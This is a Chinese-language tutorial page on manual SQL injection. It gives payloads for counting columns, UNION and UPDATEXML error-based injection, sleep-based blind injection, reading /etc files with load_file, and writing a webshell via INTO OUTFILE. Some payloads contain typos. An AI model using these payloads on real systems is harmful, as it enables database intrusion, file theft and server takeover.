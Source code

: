## 手工注入

有的时候自动化会被禁止使用，比如一些删除和插入，会导致数据库被破坏。

## 常用的 playload

以下为常见的技巧，但是每次注入的技巧都不太一样，基本的技巧具体查看示例[sqli-libs](./sqli-libs.md)

### 常见的注入点

- GET/POST/PUT/DELETE 参数
- [X-Forwarded-For 请求协议头](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For)
- 文件名

### 判断字段数目

```sql
?id=1' order by 4--+
```

判断字段数目,`?id=1' order by 1 --+ `此时页面正常，
继续换更大的数字测试`?id=1' order by 10 --+` 此时页面返回错误，
更换小的数字测试`?id=1' order by 5 --+ `此时页面依然报错，
继续缩小数值测试`?id=1' order by 3 --+ `此时页面返回正常，
更换大的数字测试`?id=1' order by 4 --+` 此时页面返回错误，3 正常，4 错误，说明字段数目就是 3

### 基于报错的注入

通过 id=-1 一个负数不存在的 id 值来触发报错，基于报错来的信息来对 sql 语句进行修改，进而达到目的。

```sql
id=-1' UNION SELECT 1,2,3 --+
```

通过 or 1=1 语句来触发报错

```sql
id=1' or 1=1 UNION SELECT 1,2,3 --+
```

### XPath 相关

[XPath](https://www.w3school.com.cn/xpath/index.asp)

#### UPDATEXML

`UPDATEXML()` 是 MySQL 的一个非常有用的函数，它可以让你修改 XML 数据，并将结果作为更新后的 XML 字符串返回。

下面是 `UPDATEXML()` 的基本语法：

```markdown
UPDATEXML(xml_target, xpath_expr, new_xml)
```

参数说明：

- `xml_target` ： 是需要被修改的 XML 字符串。
- `xpath_expr` ： 是 XPath 表达式，用于定位 `xml_target` 中需要被修改的部分。
- `new_xml` ： 是将要替换 `xpath_expr` 定位到的部分的新 XML 字符串。

<details>
<summary>UPDATEXML使用示例</summary>

例如，我们有这样的一个 XML 字符串，想要修改`<url>`的值：

```markdown
<website>
   <name>MySQL Tutorial</name>
   <url>http://www.mysqltutorial.org/</url>
</website>
```

你可以使用以下 `UPDATEXML()` 函数完成此目标：

```sql
SELECT
    UpdateXML('<website><name>MySQL Tutorial</name><url>http://www.mysqltutorial.org/</url></website>',
              '/website/url',
              '<url>http://www.mysqltutorial.com</url>')
```

注意，如果 `xpath_expr` 在 `xml_target` 中定位到多个部分，`UPDATEXML()` 会将所有定位到的部分都替换为 `new_xml`。

</details>

通常是利用了 UPDATEXML() 函数遇到错误时的行为，具体来讲就是当这个函数的第二个参数，即 XPath 表达式无法定位到有效的内容时，UPDATEXML() 函数会返回一个错误，并且这个错误信息中会包含原始的 XPath 表达式。

例如，`select * from test where ide = 1 and (UPDATEXML(1,0x7e,3))`; 由于 0x7e 是~，不属于 xpath 语法格式，因此报出 xpath 语法错误。

### 基于时间的盲注

```sql
1' and slepp(5) --+
--+ select first_name, last_name from dvwa.users where user_id='1' and sleep(5) --'
```

如果等 5 秒之后有回显，则代表有漏洞。

### 读取文件

```sql
=1' and 1=2 union select laod_file('/etc/password') #
```

### 文件写入

文件写入配合菜刀提权。

```sql
=1 and 1=2 union select '菜刀木马内容' into outfile '文件目录+文件名'
```
